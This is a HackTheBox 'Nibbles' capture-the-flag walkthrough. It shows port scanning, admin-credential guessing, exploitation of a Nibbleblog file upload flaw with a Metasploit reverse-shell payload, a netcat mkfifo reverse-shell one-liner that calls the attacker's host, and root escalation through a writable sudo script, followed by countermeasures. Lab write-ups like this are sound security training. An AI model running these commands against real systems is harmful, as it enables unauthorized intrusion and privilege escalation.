 ```yaml
---
layout: single
title:  "HackTheBox - Nibbles"
date:   2020-09-08
header:
  teaser: /assets/images/htb-nibbles/nibbles.png
categories:
  - hackthebox
  - infosec
tags:
  - web enumeration
  - credential guessing
  - php file upload
  - metasploit
  - abusing sudo permissions
---
```



# Nibbles

![](/assets/images/htb-nibbles/nibbles.png)

#### Machine Release Date: January 13, 2018

## Skills Learned

* Web Enumeration
* Guessing Weak Credentials
* Exploiting PHP File Upload Vulnerabilities with Metasploit
* Abusing `sudo` Permissions

## Active Ports

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/full-tcp-version 10.10.10.75
```

```
Nmap scan report for 10.10.10.75
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  8 15:25:57 2020 -- 1 IP address (1 host up) scanned in 8.09 seconds
```

## Vulnerability Discovery

Investigating the HTML source code at `http://10.10.10.75` revealed the hidden `/nibbleblog/` path:

![](/assets/images/htb-nibbles/nibbles-html-source.png)

After navigating to the nibbles blog, I downloaded the `favicon.ico` image so that I could fingerprint when it was last created. This should give me an idea for how outdated the software is before seraching and trying publicly known exploits:

```
$ wget http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
--2020-09-08 17:23:08--  http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
Connecting to 10.10.10.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1150 (1.1K) [image/vnd.microsoft.icon]
Saving to: ‘favicon.ico’

favicon.ico                                    100%[====================================================================================================>]   1.12K  --.-KB/s    in 0s

2020-09-08 17:23:08 (244 MB/s) - ‘favicon.ico’ saved [1150/1150]

kali@kali:~/htb/boxes/nibbles/web/images$ exiftool favicon.ico
ExifTool Version Number         : 12.04
File Name                       : favicon.ico
Directory                       : .
File Size                       : 1150 bytes
File Modification Date/Time     : 2013:11:01 14:24:00-04:00
File Access Date/Time           : 2020:09:08 17:23:08-04:00
File Inode Change Date/Time     : 2020:09:08 17:23:08-04:00
File Permissions                : rw-r--r--
Error                           : Unknown file type
```

As seen above, the `favicon.ico` file was last modified November 1, 2013 which was a long time before this box was released. Hence, most exploits developed after that date should affect that version. I searched the exploit database for known exploits written post November 1, 2013:

![](/assets/images/htb-nibbles/nibbles-exploitdb.png)

Since a metasploit module was publicly available for the `Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)` exploit, I loaded metasploit. However, at this point, I also realized that I needed the nibbleblog administrator's username and password to properly upload my webshell.

After navigating to `http://10.10.10.75/nibbleblog/admin.php`, I was presented with a login page which I was able to bypass by guessing the trivial credentials `admin:nibbles`:

![](/assets/images/htb-nibbles/nibbles-admin-login.png)

![](/assets/images/htb-nibbles/nibbles-admin-panel.png)


## Exploitation (Weak Credential Guessing + CVE-2015-6967)

At this point, I loaded and properly configured the metasploit module:

```
msf5 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf5 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.75:39054) at 2020-09-08 16:58:15 -0400
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
```

At this point, I had a low-privileged shell within my meterpreter session. Since I'm not a fan of the meterpreter shells, I executed a netcat reverse shell that would connect back to my netcat listener on my kali machine:

```
meterpreter > shell
Process 1702 created.
Channel 0 created.
which nc
/bin/nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 2001 >/tmp/f
```

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:39622.
/bin/sh: 0: can't access tty; job control turned off
$
```

At this point, I had a netcat reverse shell which I then upgraded to a [pseudo-pty](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2) with python3.

After that, I captured the `user.txt` file:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt
b02ff32bb332deba49eeaed21152c8d8
```

## Privilege Escalation (Arbitrary Sudo Without Password)

Checking the sudo permissions for the `nibbler` user revealed that I could execute `/home/nibbler/personal/stuff/monitor.sh` as the `root` user without providing a password:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Since I was the `nibbler` user, I had full access to create the `/home/nibbler/personal/stuff/monitor.sh` file and execute a root shell from there:

```
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/
nibbler@Nibbles:/home/nibbler$ echo '#!/bin/sh' > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ echo 'bash' >> /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x /home/nibbler/personal/stuff/monitor.sh
```

After creating `/home/nibbler/personal/stuff/monitor.sh` and making it executable, I was able to execute via sudo with root permissions to grant myself a root shell and capture the `root.txt` flag:

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler# find / -name root.txt
/root/root.txt
root@Nibbles:/home/nibbler# cat /root/root.txt
b6d745c0dfb6457c55591efc898ef88c
```

## Countermeasures

* Update the `nibbleblog` software to the latest version currently available. Disable it or uninstall it if no longer used.
* Prefer running services as a dedicated user. Keep sudo privileges restricted to other users on the system.
